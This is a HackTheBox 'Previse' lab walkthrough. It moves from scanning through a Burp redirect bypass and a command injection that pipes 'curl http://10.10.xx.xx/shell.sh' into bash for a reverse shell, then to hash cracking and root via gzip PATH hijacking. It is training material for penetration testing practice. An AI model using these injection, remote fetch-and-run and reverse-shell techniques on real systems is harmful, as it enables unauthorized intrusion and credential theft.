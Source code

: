 HackTheBox Previse Walkthrough

![privese](https://user-images.githubusercontent.com/67886668/128668035-e6d8c71e-04eb-408e-97a7-0ab497b90ab7.PNG)

summary:

1- Scanning

2- Enumeration

3- Exploitation

4- Privilege Escalation

1-Scanning
port scanning:

![nmap](https://user-images.githubusercontent.com/67886668/128668136-b281f9c8-7024-42b2-ab80-b914b7154b68.PNG)

after using nmap we found 2 open ports: ssh and http and it is not have anything interesting.
2-Enumeration
Gobuster : 

![gobuster](https://user-images.githubusercontent.com/67886668/128668184-5c5d52ba-9dcc-465c-a166-75888ddc9a52.PNG)

It has a lot of php file.Lets go to website to collect more information.
After going to http://previse.htb/ we get a login form i tried sql injection for this form but it does not work so I tried to go for this php files but Most of them depends to login form so it does not work.
but there is an interesting file called “nav.php”
it is work but after that when i click in any link it is retrive me to login page
so i’m started burp and found this response  

![302](https://user-images.githubusercontent.com/67886668/128668257-bc8e4f7f-0b3d-413a-82f6-6e2d9f9c8e2f.PNG)
   
After searching for a while about 302 found i knew i can edit responses using burp suite  to bypass this so i changed 302 found to 200 OK and changed the location.
HINT:to change location file look to request to know what php file you need ;).
it is work :)
3-Exploitation

![add user](https://user-images.githubusercontent.com/67886668/128668323-78d2b7d2-ff9e-48f3-b4e0-889d3e096a4d.PNG)

you will get this page,create a user and do the same in response using burp to add user.
then you were added a new user. 
go to the login page and login with your created user.

![uploaded files](https://user-images.githubusercontent.com/67886668/128668407-c4c87635-dc5e-46a3-abe2-1229583edf4b.PNG)

you are logged in, while discovering pages you will find this zip file download it to your device 
and take a look for his file. You will find mysql server credentials but you will not connect to mysql server so you need to get a shell before.

![getting shell](https://user-images.githubusercontent.com/67886668/128668444-e54a3993-fe76-4ce7-92d5-97d7173891e2.PNG)

so the shell you will get it from “logs.php”.
 create your reverse shell in your device using bash from this link  here and use this 
<curl http://10.10.xx.xx/shell.sh|bash> in delim variable 
but before that use  nc -lvnp <port number> in your terminal 
you gets the shell as www-data 
now you can use mysql to get user accounts.
    
![no sql](https://user-images.githubusercontent.com/67886668/128668652-8fa2e91c-bcdc-40e1-8867-f53a80f11242.PNG)
    
in my  case after using mysql it was not connected and didn’t respond to me.

![sql](https://user-images.githubusercontent.com/67886668/128668725-b64b26f2-4f05-413c-aa56-59406d76f1cd.PNG)
    
So I used a spawning tty shell and then tried to use mysql and it worked.

![user](https://user-images.githubusercontent.com/67886668/128668782-91415229-f046-498a-a04b-e3aac22f403a.PNG)
    
and now using your sql skills you will get this 2 users the first one that you want and second one was your created user. 
So now it is time to crack the hash.

![hash crack](https://user-images.githubusercontent.com/67886668/128668843-b7c47669-2a2a-490c-b57c-e89a35a44b1c.PNG)
    
i used hashcat but it is takes an one hour and didn’t get the hash, if you used this:
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
you will know the hash type is md5crypt-long.
so after using this command in the above figure it will take time but in the end you will get cracked hash.
    
![now user](https://user-images.githubusercontent.com/67886668/128668898-08f47e41-19cf-4df3-88be-a6b4093d7930.PNG)

after getting the password for m4lwhere, i tried to connect using ssh but it wasn’t work 
and in www-data i couldn’t use sudo and su so i used spawning tty shell again and then
connected as a m4lwhere and get user.txt

4-Privilege Escalation

![sudo](https://user-images.githubusercontent.com/67886668/128668925-fbc6267d-fc4d-44a1-ba73-1930040b21b0.PNG)
    
using sudo -l  it is an interesting script /opt/scripts/access_backup.sh.
after reading this file it is use gzip 
with some search i found i can use path injection to getting a shell as root 
    
![code injection](https://user-images.githubusercontent.com/67886668/128669002-d9021b19-e866-420f-b833-dca2844ef277.PNG)

I went to /tmp file ,then created a gzip script. It has a reverse shell using bash and makes it an executable file. 

![path injection](https://user-images.githubusercontent.com/67886668/128669060-84b80c27-d187-4c6e-8fab-4c88d102e7e7.PNG)
    
then i exported /tmp to the PATH variable, after add tmp to PATH it is time to get root.

![run script](https://user-images.githubusercontent.com/67886668/128669090-fb60f0bc-2117-420d-a9cf-f9aec4d0210a.PNG)
    
before running access.backup.sh script, we will use nc to listen new reverse shell like:
nc -lvnp 4444
    
![root](https://user-images.githubusercontent.com/67886668/128669112-ed6f5186-2733-499e-9a9b-f5bac8b3f83c.PNG)

after running the script you were to get a shell as a root cat your flag ;-)


